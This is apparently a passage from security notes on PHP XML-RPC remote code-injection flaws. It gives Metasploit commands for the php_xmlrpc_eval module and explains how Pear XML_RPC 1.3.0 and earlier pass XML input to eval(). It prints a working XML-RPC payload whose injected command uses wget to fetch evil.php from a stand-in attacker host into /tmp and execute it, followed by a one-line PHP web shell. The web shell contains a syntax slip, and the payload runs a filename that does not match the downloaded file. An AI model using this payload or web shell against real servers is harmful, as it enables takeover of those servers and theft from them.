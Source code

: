 ```xml
    </param>
  </params>
</methodResponse>
```
<br><br>
## PHP XML-RPC Arbitrary Code Execution
This exploits an arbitrary code execution flaw discovered in many implementations of the PHP XML-RPC module. This flaw is exploitable through a number of PHP web applications, including but not limited to Drupal, Wordpress, Postnuke, and TikiWiki.
<br><br>
To display the available options, load the module within the Metasploit console and run the commands 'show options' or 'show advanced' :

```
msf > use exploit/unix/webapp/php_xmlrpc_eval
msf exploit(php_xmlrpc_eval) > show targets
    ...targets...
msf exploit(php_xmlrpc_eval) > set TARGET < target-id >
msf exploit(php_xmlrpc_eval) > show options
    ...show and set options...
msf exploit(php_xmlrpc_eval) > exploit
```
<br><br>
## XML-RPC remote code-injection
XML-RPC for PHP is affected by a remote code-injection vulnerability. Pear XML_RPC version 1.3.0 and earlier and PHP XMLRPC version 1.1 and earlier, are vulnerable to PHP remote code injection. The XML parser will pass the data in XML elements to PHP eval() without sanitizing the user input. Lack of parameter filtering allows a remote attacker to execute arbitrary code in the context of the web server.


  
 Exploit : 
> The attacker sends the below XML data in the HTTP POST to the vulnerable server. The XML element <name> contains the PHP command injection. XML-RPC will pass the XML elements to PHP eval() without validating the user input. Upon execution, PHP command drops a malicious script to the tmp directory & modifies the file permission to allow execution.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
  <methodName>test.method</methodName>
  <params>
    <param>
      <value>
        <name>',"));echo '_begin_';echo `cd /tmp;wget ATTACKER-IP/evil.php;chmod +x evil.php;./nikons `;echo '_end';exit;/*</name>
      </value>
    </param>
  </params>
</methodCall>

```
<sub>xml data with PHP command injection</sub>
<br><br>
evil.php :
```php
<?php system($_GET['cmd'];)?>
```
  
